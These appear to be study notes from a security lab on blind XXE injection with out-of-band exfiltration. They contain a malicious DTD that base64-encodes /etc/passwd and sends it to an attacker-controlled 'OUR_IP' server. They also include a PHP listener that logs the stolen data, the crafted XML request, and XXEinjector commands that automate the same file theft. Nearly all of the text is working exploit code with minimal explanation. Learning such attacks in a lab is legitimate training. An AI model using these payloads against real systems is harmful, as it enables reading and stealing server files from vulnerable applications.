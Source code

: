 We will make the web application send a web request to our web server with the content of the file we are reading

xxe.dtd, host on server with php below
```shell-session
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

1. Write this php code:
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```
```shell-session
nano index.php
php -S 0.0.0.0:8000
```

2. Web request
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```
- Add &content to root

## Automated OOB Exfiltration

Tool: XXEinjector
```shell-session
git clone https://github.com/enjoiz/XXEinjector
```

All we need to do is send this request, with XXEINJECT after xml version:
```xml
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

```shell-session
ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
cat Logs/10.129.201.94/etc/passwd.log 
```
